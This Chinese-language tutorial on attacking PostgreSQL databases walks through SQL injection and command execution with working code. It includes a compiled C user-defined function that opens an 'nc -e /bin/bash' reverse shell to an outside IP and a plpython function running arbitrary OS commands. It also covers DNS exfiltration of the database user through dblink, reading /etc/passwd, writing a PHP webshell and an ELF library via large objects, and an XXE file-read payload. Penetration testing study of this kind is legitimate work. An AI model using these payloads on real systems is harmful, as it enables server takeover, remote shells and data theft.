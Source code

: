 # Hacking PostgreSQL

这篇文章主要讲解了如何 Hacking PostgreSQL 数据库，总结了一些常用方法。

0x01 SQL 注入
=====

大体上和 MySQL 差不多，有一些变量不一样。具体就不再举例，可以看这篇总结：[PostgreSQL SQL Injection Cheat Sheet](http://www.sqlinjectionwiki.com/Categories/4/postgresql-sql-injection-cheat-sheet/)。  
此外，利用 sqlmap 也是一个不错的方式。

0x02 执行命令
=====

### C

sqlmap 给出的几个 UDF 在我本地测试并不成功，所以最好的方法是自己编译一个动态链接库。  
根据官方文档，我们要定义一个 PG_MODULE_MAGIC。在 PostgreSQL 这个是为了 Postgresql 的安全机制（大概？），在 8.2 以后需要验证这个 magic block，不然，在加在动态链接库的时候会报错：

```
ERROR:  incompatible library "xxx.so": missing magic block
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro.

```

执行系统命令的动态链接库源码为：

```
#include "postgres.h"
#include "fmgr.h"
#include <stdlib.h>

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

text *exec()
{
    system("nc -e /bin/bash 10.211.55.2 9999");
}

```

利用如下命令编译 .so 文件：

```
gcc 1.c -I`pg_config --includedir-server` -fPIC -shared -o udf.so

```

在 pgsql 里执行：

```
CREATE OR REPLACE FUNCTION exec()  RETURNS text AS  '/tmp/1.so', 'exec' LANGUAGE C STRICT;
select exec();

```

监听的 9999 端口得到一个 shell：

![](http://drops.javaweb.org/uploads/images/f606e17f510e2638c774cc6f1f14dfee056d4810.jpg)

### Python

默认 PostgreSQL 不会安装 Python 的扩展，在 Ubuntu 下可以通过：

```
apt-get install postgresql-plpython-9.1

```

进行安装，除了 python 的扩展，还有 sh、perl、ruby 等等。  
安装完成后，首先是创建一个 UDF 来执行我们要执行的命令：

```
CREATE FUNCTION system (a text)
  RETURNS text
AS $$
  import os
  return os.popen(a).read()
$$ LANGUAGE plpython2u;

```

其中的 plpython2u 可以利用如下语句获取：

```
select * from pg_language;

```

我们可以根据返回来判断利用哪个语言（plpython2u、plpythonu、plpython3u 等等）。

![](http://drops.javaweb.org/uploads/images/1f5963beb826185e0cf0f373f2ee97721717f5e0.jpg)

创建好 UDF 后，直接调用如下语句即可：

```
select system('ls -la');

```

![](http://drops.javaweb.org/uploads/images/4549e44933c4c77d0dc753342b8801fe33e624ca.jpg)

此外，sh、ruby 等同理，可以参考官方文档来写一个 UDF。

文档地址：[http://www.postgresql.org/docs/8.2/static/server-programming.html](http://www.postgresql.org/docs/8.2/static/server-programming.html)

0x03 DNS 请求获取数据
=====

同样的，PostgreSQL 可以通过 DNS Request 一样获取数据，在盲注的情况下。用到的一个扩展叫做`dblink`，可以通过如下命令开启：

```
CREATE EXTENSION dblink

```

接着运行如下语句，获取当前数据库用户名称：

```
SELECT * FROM dblink('host='||(select user)||'.f27558c1f94c0595.xxxxx.xx user=someuser dbname=somedb', 'SELECT version()') RETURNS (result TEXT);

```

![](http://drops.javaweb.org/uploads/images/3eb7f328674bb3d7255e169ec9b8bfe355142334.jpg)

远程获取到请求内容：

![](http://drops.javaweb.org/uploads/images/7129e53865fa097c2f03e2f8dc66bc56791bfb30.jpg)

0x04 读写文件
=====

### 读

PostgreSQL 读取文件虽然有些蛋疼，但是还是可以读取的：

```
CREATE TABLE temptable(t text);
COPY temptable FROM '/etc/passwd';
SELECT * FROM temptable limit 1 offset 0;

```

读取结束后：

```
DROP TABLE temptable;

```

### 写

写文件分为两个部分，一个是写 webshell，另外一个是写二进制文件。  
写 webshell 十分简单，利用：

```
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';

```

即可写一个文件。  
根据疯狗的这一篇帖子：[http://zone.wooyun.org/content/4971](http://zone.wooyun.org/content/4971)，说是可以利用 PostgreSQL 的“大对象数据”来写，但是我测试是失败的。报错如下：

```
ERROR:  pg_largeobject entry for OID 2008, page 0 has invalid data field size 2378

```

用 COPY 的 FORMAT 位 binary 来写文件的话，会被 PostgreSQL 加上几个字节，导致不能识别为 ELF 文件。  
实际上，阅读官方文档可知，写的文件每一页不能超过 2KB，所以我们要把数据分段：

```
SELECT lo_create(12345);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('7f454c4...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 1, decode('0000000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 2, decode('f604000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 3, decode('0000000...7400', 'hex'));
SELECT lo_export(12345, '/tmp/test.so');
SELECT lo_unlink(12345);

```

其中每一段都要小于等于 2KB，这样就可以成功写入：  
![](http://drops.javaweb.org/uploads/images/9d34d9704e598d92bcce42977d9a5d4124105102.jpg)

0x05 XXE
=====

老版本的 PostgreSQL 存在 XXE 漏洞。具体可以看这篇文章：[PostgreSQL (all) error-based XXE 0day](http://lab.onsec.ru/2012/06/postgresql-all-error-based-xxe-0day.html)。  
大体就是执行语句：

```
select xmlparse(document '<?xml version="1.0" standalone="yes"?><!DOCTYPE content [ <!ENTITY abc SYSTEM "/etc/network/if-up.d/mountnfs">]><content>&abc;</content>');

```

可以获取一些数据，也可以进行 SSRF 等。不过因为年代很久，可能很多都修复过了，所以作为一个保留方案，可能会有意外的惊喜。

参考
==

* * *

1.  [PostgreSQL SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
2.  [关于PostgreSQL的那些事儿（文件读取写入、命令执行的办法）](http://zone.wooyun.org/content/4971)
3.  [PostgreSQL 9.0 Documentation](http://www.postgresql.org/docs/9.0/)
4.  [PostgreSQL (all) error-based XXE 0day](http://lab.onsec.ru/2012/06/postgresql-all-error-based-xxe-0day.html)

最后，如有错误请不吝赐教。